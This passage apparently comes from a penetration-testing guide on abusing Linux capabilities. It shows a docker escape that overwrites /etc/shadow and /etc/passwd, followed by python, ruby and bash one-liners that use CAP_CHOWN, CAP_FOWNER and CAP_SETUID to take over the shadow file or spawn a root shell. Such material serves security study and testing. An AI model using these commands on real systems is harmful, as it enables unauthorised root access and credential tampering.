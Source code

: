 In order to scape the docker container you could **download** the files `/etc/shadow` and `/etc/passwd` from the host, **add** to them a **new user**, and use **`shocker_write`** to overwrite them. Then, **access** via **ssh**.

**The code of this technique was copied from the laboratory of "Abusing DAC\_OVERRIDE Capability" from** [**https://www.pentesteracademy.com**](https://www.pentesteracademy.com)

## CAP\_CHOWN

**This means that it's possible to change the ownership of any file.**

**Example with binary**

Lets suppose the **`python`** binary has this capability, you can **change** the **owner** of the **shadow** file, **change root password**, and escalate privileges:

```bash
python -c 'import os;os.chown("/etc/shadow",1000,1000)'
```

Or with the **`ruby`** binary having this capability:

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

## CAP\_FOWNER

**This means that it's possible to change the permission of any file.**

**Example with binary**

If python has this capability you can modify the permissions of the shadow file, **change root password**, and escalate privileges:

```bash
python -c 'import os;os.chmod("/etc/shadow",0666)
```

### CAP\_SETUID

**This means that it's possible to set the effective user id of the created process.**

**Example with binary**

If python has this **capability**, you can very easily abuse it to escalate privileges to root:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Another way:**

```python
import os
import prctl
#add the capability to the effective set
prctl.cap_effective.setuid = True
os.setuid(0)
os.system("/bin/bash")
```
